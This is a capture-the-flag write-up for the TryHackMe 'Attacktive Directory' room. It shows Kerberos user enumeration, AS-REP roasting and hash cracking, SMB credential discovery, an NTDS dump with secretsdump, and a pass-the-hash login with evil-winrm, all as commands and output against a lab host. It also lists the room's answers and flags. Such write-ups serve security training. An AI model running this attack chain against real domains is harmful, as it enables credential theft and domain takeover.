


> # Attacktive Directory

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 3 - Enumeration Welcome to Attacktive Directory](#task-3---enumeration-welcome-to-attacktive-directory)
    - [Task 4 - Enumeration Enumerating Users via Kerberos](#task-4---enumeration-enumerating-users-via-kerberos)
    - [Task 5 - Exploitation Abusing Kerberos](#task-5---exploitation-abusing-kerberos)
    - [Task 6 - Enumeration Back to the Basics](#task-6---enumeration-back-to-the-basics)
    - [Task 7 - Domain Privilege Escalation Elevating Privileges within the Domain](#task-7---domain-privilege-escalation-elevating-privileges-within-the-domain)
    - [Task 8 - Flag Submission Flag Submission Panel](#task-8---flag-submission-flag-submission-panel)

<!-- /TOC -->

## Task 3 - Enumeration Welcome to Attacktive Directory
1. What tool will allow us to enumerate port 139/445?<br>
    > Enum4linux is a tool for enumerating information from Windows and Samba systems.

    **Answer:** enum4linux

1. What is the NetBIOS-Domain Name of the machine?<br>
    Run `enum4linux -o`.<br>
    <br>
    **Answer:** THM-AD

1. What invalid TLD do people commonly use for their Active Directory Domain?<br>
    `nmap` on port 3389, you will see the full domain name.<br>
    <br>
    **Answer:** .local

## Task 4 - Enumeration Enumerating Users via Kerberos
1. What command within Kerbrute will allow us to enumerate valid usernames?<br>
    Run `kerbrute` help page
    ```
    $ ./kerbrute -h

        __             __               __     
    / /_____  _____/ /_  _______  __/ /____ 
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
    / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
    /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

    Version: v1.0.3 (9dad6e1) - 07/15/23 - Ronnie Flathers @ropnop

    This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
    It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
    Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

    Usage:
    kerbrute [command]

    Available Commands:
    bruteforce    Bruteforce username:password combos, from a file or stdin
    bruteuser     Bruteforce a single user's password from a wordlist
    help          Help about any command
    passwordspray Test a single password against a list of users
    userenum      Enumerate valid domain usernames via Kerberos
    version       Display version info and quit

    Flags:
        --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
        --delay int       Delay in millisecond between each attempt. Will always use single thread if set
    -d, --domain string   The full domain to use (e.g. contoso.com)
    -h, --help            help for kerbrute
    -o, --output string   File to write logs to. Optional.
        --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
    -t, --threads int     Threads to use (default 10)
    -v, --verbose         Log failures and errors

    Use "kerbrute [command] --help" for more information about a command.
    ```
    **Answer:** userenum

1. What notable account is discovered? (These should jump out at you)<br>
    Run `kerbrute userenum` mode, you will another accout has `admin` string.<br>
    ```
    $ ./kerbrute userenum --dc 10.10.133.221 -d spookysec.local userlist.txt

        __             __               __     
    / /_____  _____/ /_  _______  __/ /____ 
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
    / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
    /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

    Version: v1.0.3 (9dad6e1) - 07/15/23 - Ronnie Flathers @ropnop

    2023/07/15 00:48:14 >  Using KDC(s):
    2023/07/15 00:48:14 >   10.10.133.221:88

    2023/07/15 00:48:14 >  [+] VALID USERNAME:       james@spookysec.local
    2023/07/15 00:48:18 >  [+] VALID USERNAME:       svc-admin@spookysec.local
    2023/07/15 00:48:23 >  [+] VALID USERNAME:       James@spookysec.local
    2023/07/15 00:48:25 >  [+] VALID USERNAME:       robin@spookysec.local
    2023/07/15 00:48:44 >  [+] VALID USERNAME:       darkstar@spookysec.local
    2023/07/15 00:48:56 >  [+] VALID USERNAME:       administrator@spookysec.local
    2023/07/15 00:49:19 >  [+] VALID USERNAME:       backup@spookysec.local
    2023/07/15 00:49:29 >  [+] VALID USERNAME:       paradox@spookysec.local
    2023/07/15 00:50:40 >  [+] VALID USERNAME:       JAMES@spookysec.local
    2023/07/15 00:51:04 >  [+] VALID USERNAME:       Robin@spookysec.local
    2023/07/15 00:53:26 >  [+] VALID USERNAME:       Administrator@spookysec.local
    2023/07/15 00:58:08 >  [+] VALID USERNAME:       Darkstar@spookysec.local
    2023/07/15 00:59:46 >  [+] VALID USERNAME:       Paradox@spookysec.local
    2023/07/15 01:04:54 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
    2023/07/15 01:06:22 >  [+] VALID USERNAME:       ori@spookysec.local
    2023/07/15 01:09:06 >  [+] VALID USERNAME:       ROBIN@spookysec.local
    2023/07/15 01:15:46 >  Done! Tested 73317 usernames (16 valid)
    ```
    **Answer:** svc-admin

1. What is the other notable account is discovered? (These should jump out at you)<br>
    The other account is `backup`.<br>
    **Answer:** backup

## Task 5 - Exploitation Abusing Kerberos
1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?<br>
    > After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

    You have to add to hosts file the IP and domain. Then run `impacket-GetNPUUsers` to request TGT and get hashcat format.<br>
    ```
    $ impacket-GetNPUsers spookysec.local/backup@10.10.133.221 -no-pass -request -format hashcat -output backup      
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

    [*] Getting TGT for backup@10.10.133.221
    [-] User backup@10.10.133.221 doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                               
    $ impacket-GetNPUsers spookysec.local/svc-admin@10.10.133.221 -no-pass -request -format hashcat -output backup   
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

    [*] Getting TGT for svc-admin@10.10.133.221
    $krb5asrep$23$svc-admin@10.10.133.221@SPOOKYSEC.LOCAL:14d4b6e04d633cbcaddc59d7602b792a$34e6004538c7e7a8d5f869843c8d6b900341a0ecbbaaa03c9d6be2e0596eda87710eb8ecee00a98de0882981c7350dd28f97b1175b3751eb8b4143f09502db101969c2550aef26fe1c9a3b0189125e68a73e6e319a560f6f90efacee2b329ed39e34d32f0870d2f463e6ec29802d3854773218c6d4e2125eb0c94e827788f3525d89a04ede7e8e12b1fb92171bf4886ef1dc2be99a49487fbc26940f8693c38eb410b0e162edb51f08ef1daa49bb6de19a73778123494cd69687963a2cff3f615342fe84f59a45f40948c99eefce4de853bd400cd5064e5d2de16442aed3c9aaffaa998302a6a7e9067392eff864912422a8
    ```
    User `svc-admin` can request TGT without knowing the password.<br>
    **Answer:** svc-admin

1. Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)<br>
    Search the string of the format in [](https://hashcat.net/wiki/doku.php?id=example_hashes)
    ```
    18200	Kerberos 5, etype 23, AS-REP	$krb5asrep$
    ```
    **Answer:** Kerberos 5, etype 23, AS-REP

1. What mode is the hash?<br>
    **Answer:** 18200

1. Now crack the hash with the modified password list provided, what is the user accounts password?<br>
    Use `john the ripper` and the given password list to crack this password.<br>
    ```
    $ john svc-admin --wordlist=passwordlist.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    management2005   ($krb5asrep$23$svc-admin@10.10.133.221@SPOOKYSEC.LOCAL)     
    1g 0:00:00:00 DONE (2023-07-15 05:58) 25.00g/s 162000p/s 162000c/s 162000C/s brendita..march10
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    **Answer:** management2005

## Task 6 - Enumeration Back to the Basics
1. What utility can we use to map remote SMB shares?<br>
    Use `impacket-smbclient`.<br>
    **Answer:** smbclient

1. Which option will list shares?<br>
    View in help page of `smbclient`.<br>
    **Answer:** -L

1. How many remote shares is the server listing?<br>
    Connect to SMB share with `smbclient`, then use `shares` to list all share folder on the server.<br>
    ```
    # shares
    ADMIN$
    backup
    C$
    IPC$
    NETLOGON
    SYSVOL
    ```
    **Answer:** 6

1. There is one particular share that we have access to that contains a text file. Which share is it?<br>
    In `backup` share, we found a .txt file in it.<br>
    ```
    # use backup
    # ls
    drw-rw-rw-          0  Sat Apr  4 15:08:39 2020 .
    drw-rw-rw-          0  Sat Apr  4 15:08:39 2020 ..
    -rw-rw-rw-         48  Sat Apr  4 15:08:53 2020 backup_credentials.txt
    ```
    **Answer:** backup

1. What is the content of the file?<br>
    Use `cat` to view the content of this file.<br>
    ```
    # cat backup_credentials.txt
    YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
    ```
    **Answer:** YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

1. Decoding the contents of the file, what is the full contents?<br>
    This string is decoded with base64.<br>
    ```
    $ echo -n YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw | base64 -d                                        
    backup@spookysec.local:backup2517860
    ```
    **Answer:** backup@spookysec.local:backup2517860

## Task 7 - Domain Privilege Escalation Elevating Privileges within the Domain
1. What method allowed us to dump NTDS.DIT?<br>
    View `secretsdump` help page.<br>
    > Use the VSS method instead of default DRSUAPI

    **Answer:** DRSUAPI

1. What is the Administrators NTLM hash?<br>
    Use `secretsdump` to grab Administrator's NTLM hash.<br>
    **Answer:** 0e0363213e37b94221497260b0bcb4fc

1. What method of attack could allow us to authenticate as the user without the password?<br>
    **Answer:** Pass the Hash

1. Using a tool called Evil-WinRM what option will allow us to use a hash?<br>
    View in `evil-winrm` help page.<br>
    ```
    $ evil-winrm -h
                                        
    Evil-WinRM shell v3.5

    Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
        -S, --ssl                        Enable ssl
        -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
        -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
        -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
        -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
            --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
        -e, --executables EXES_PATH      C# executables local path
        -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
        -U, --url URL                    Remote url endpoint (default /wsman)
        -u, --user USER                  Username (required if not using kerberos)
        -p, --password PASS              Password
        -H, --hash HASH                  NTHash
        -P, --port PORT                  Remote host port (default 5985)
        -V, --version                    Show version
        -n, --no-colors                  Disable colors
        -N, --no-rpath-completion        Disable remote path completion
        -l, --log                        Log the WinRM session
        -h, --help                       Display this help message
    ```
    **Answer:** -H

## Task 8 - Flag Submission Flag Submission Panel
Use `evil-winrm -i 10.10.191.55 -u administrator -H 0e0363213e37b94221497260b0bcb4fc` to connect to WinRM service. The flag is in the `C:\Users\<username>\Desktop` of each user

1. svc-admin<br>
    **Answer:** TryHackMe{K3rb3r0s_Pr3_4uth}

1. backup<br>
    **Answer:** TryHackMe{B4ckM3UpSc0tty!}

1. Administrator<br>
    **Answer:** TryHackMe{4ctiveD1rectoryM4st3r}
